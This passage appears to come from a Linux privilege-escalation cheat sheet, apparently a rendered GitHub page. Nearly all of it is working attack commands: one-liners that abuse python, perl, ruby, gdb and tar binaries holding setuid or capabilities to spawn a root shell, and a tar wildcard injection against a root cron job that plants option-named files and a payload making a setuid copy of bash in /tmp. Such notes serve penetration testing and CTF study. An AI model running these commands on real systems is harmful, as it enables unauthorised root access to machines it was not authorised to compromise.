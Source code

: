**Exploit**
```bash change its user ID to root
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Common binaries wih capabilities
```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
```
```bash
ruby -e 'exec "/bin/bash"'
```
```bash
gdb -nx -ex '!sh' -ex quit
```
```bash
cpython -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
```bash
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

<br>

## `tar` wildcard (with cron job)
> **Wildcards in tar**: When `tar` encounters filenames starting with `--`, it treats them as command-line options. This can be exploited to inject tar options like `--checkpoint` and `--checkpoint-action`, which can execute arbitrary commands.
**Cron Job**: The cron job running the vulnerable script executes the `tar` command periodically, triggering the exploit when the special files are present.

**Test**
Identify the vulnerability
```bash example script
cat /home/user/compress.sh
```
```bash compress.sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```
Cron job
```bash list cron jobs
crontab -l
```
```bash cron job line
* * * * * /usr/local/bin/compress.sh
```

**Exploit**
Create files with names that `tar` will interpret as options
```bash
# Create a payload script
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh

# Create special files to inject `tar` options
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=sh\ runme.sh
```
